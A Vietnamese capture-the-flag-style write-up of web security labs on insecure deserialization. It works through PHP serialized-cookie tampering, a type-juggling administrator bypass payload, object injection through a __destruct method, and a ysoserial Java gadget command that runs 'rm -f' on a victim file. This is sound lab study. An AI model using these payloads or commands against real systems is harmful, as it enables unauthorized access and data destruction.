## **Lab: Modifying serialized objects**


>>Lab yêu cầu chỉnh sửa chuỗi **serialized** trong trường **session cookie** để có thể thực hiện leo thang đặc quyền



Thực hiện decode base64, ta nhận được format của chuỗi `serialized` PHP

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

Ta thực hiện thay đổi trường `admin` thành giá trị `1`

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```



Kết quả là ta đã thực hiện chỉnh sửa chuỗi **serialized** và chuỗi này được server thực hiện **deserialized** mà không có bất kì **sanities** nào dân đến object được deserialized lại đã được chỉnh sửa thành chuỗi mà attacker mong muốn

từ

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

Chuyển thành

```php
class User {
    public $username = "wiener";
    public $admin = true;
}
```



## **Lab: Modifying serialized data types**


>>Lab yêu cầu chỉnh sửa kiểu dữ liệu của chuỗi **serialized** để bypass để đăng nhập vào tài khoản **administrator**

Khi ta decode cookie, ta nhận được chuỗi có cấu trúc 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hckkjalyt3dmpee2328odjaq2sqfunbf";}
```



Ta có thể thấy được web thực hiện xác thực phiên người dùng bằng `access_token`, nó có thể được mã hóa hoặc hash\
Được biết là trong những phiên bản cũ, PHP có thể so sánh lỏng theo kiểu 

```php
1=='1'
```

hoặc 
```php
1=='1 abc'
```

Vẫn sẽ trả về `true` bởi vì nó thực hiện chuyển dữ liệu từ `string` sang `int` để so sánh\
Và có trường hợp

```php
0=='random_stringg'
```

Vẫn trả về `True`, vì vậy bài này ta sẽ thực hiện khai thác với hướng này: ta thực hiện đổi kiểu dữ liệu của `access_token` thành `int` và có giá trị là `0`, vì vậy khi mà web thực hiện kiểm tra 

```php
0=='acccess_token_trong_DB'
```

Thì nó sẽ luôn trả về `True` và qua đó bypass được cơ chế xác thực của web\
Payload:

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```


<br>


## **Lab: Using application functionality to exploit insecure deserialization**


>Lab yêu cầu xóa file `/home/carlos/morale.txt`

Thực hiện một request xóa tài khoản, ta nhận được một cookie như sau



```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"p5g8gt4cnxeyuhcu7158h092n0x38hsd";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

Khi xóa tài khoản, ta thấy có một trường thực hiện xóa avatar theo đường dẫn 

Ta thực hiện thay đổi đường dẫn `/home/carlos/morale.txt`



## **Lab: Arbitrary object injection in PHP**


>>Lab yêu cầu lấy source code, tạo và inject chuỗi **serialized** để xóa thư mục `/home/carlos/morale.txt`

Ta xem source code và phát hiện web có một comment nói rằng file `/libs/CustomTemplate.php` đã được update



Vì vậy có thể file vẫn còn file backup trong bị lộ trên hệ thống bằng cách truy cập `/libs/CustomTemplate.php~` 



Kết quả là ta nhận được một file có nội dung 

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

Ta thấy được file có một class `CustomTemplate` với 2 thuộc tính **private** `template_file_path` và `lock_file_path`\
Nó gồm 2 magic method là `__construct` và `__destruct`\
`__construct` sẽ gán vào 2 thuộc tính `template_file_path` và `lock_file_path` thành `template_file_path . ".lock"`\
`__destruct` sẽ thực hiện xóa file `lock_file_path`

Vậy nên dựa vào đây ta có thể tạo một chuỗi **serialize**:

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Gửi chuỗi này đúng định dạng 





## **Lab: Exploiting Java deserialization with Apache Commons**


>>Lab nói rằng web sử dụng thư viện `Apache Commons Collections library`, ta không được truy cập vào source code nhưng ta sẽ sử dụng những gadget chain có sẵn được gen bằng `ysoserial`

Dấu hiệu nhận biết của chuỗi **serialized** của Java được base64 encode là `rO0...` 



Ta sẽ sử dụng `ysoserial` để gen chuỗi **serialized**\
Ta sử dụng lệnh `java -jar ysoserial-all.jar` để thực hiện xem những gadget chain có sẵn



>>*Lưu ý*: phiên bản java mới có thể khóa không cho truy cập vào nhưng object local, vì vậy khi sử dụng lệnh ta cần phải thêm một số option để có thể truy cập vào những object đó

Ta thực hiện recon để biết được phiên bản của **Apache Commons** nhưng không thấy được phiên bản nào, vì vậy ta có thể phải thử tất cả các chain, khi nào đúng mới dừng lại

Ta thực hiện gen chuỗi và đồng thời base64 chuỗi đó bằng lệnh

```bash
podman run --rm -v "$PWD:/work" -w /work docker.io/library/eclipse-temurin:8-jre \
    java -jar ysoserial-all.jar CommonsCollections1 'rm -f /home/carlos/morale.txt' \ 
    | base64 -w0
```

>>Yêu cầu phải có **Docker** và **Podman**

**CommonsCollections1**


**CommonsCollections2**


## **Lab: Exploiting PHP deserialization with a pre-built gadget chain**
